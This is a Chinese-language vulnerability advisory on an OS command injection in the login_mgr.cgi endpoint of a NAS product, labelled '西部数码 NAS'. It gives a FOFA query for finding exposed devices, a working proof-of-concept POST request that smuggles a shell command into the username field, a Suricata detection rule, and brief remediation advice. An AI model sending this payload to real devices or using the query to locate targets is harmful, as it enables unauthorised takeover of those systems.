


# 西部数码 NAS login_mgr.cgi 存在命令执行漏洞

西部数码 NAS login_mgr.cgi 存在命令执行漏洞，攻击者可获取系统权限。

# 影响版本

西部数码 NAS

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="_PROJECT_MODEL_ID_YOSEMITE " &&body="_PROJECT_MODEL_ID_LIGHTNING "

POC/EXP：

```
POST /cgi-bin/login_mgr.cgi HTTP/1.1
Host:127.0.0.1
Content-Type: application/x-www-form-urlencoded

cmd=wd_login&username=\admin'$(id>/var/www/xxx.png)'&pwd=123456
```





sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"西部数码 NAS - /cgi-bin/login_mgr.cgi username $(id>) 命令执行";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/cgi-bin/login_mgr.cgi";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"cmd=wd_login";
        content:"username="; distance:0;
        content:"$("; distance:0;
        content:"id>"; distance:0; nocase;
        content:".png"; distance:0; nocase;
    metadata:
        service http,
        affected_product "西部数码 NAS",
        vulnerability_type "OS Command Injection";
    classtype:web-application-attack;
    sid:1000769;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
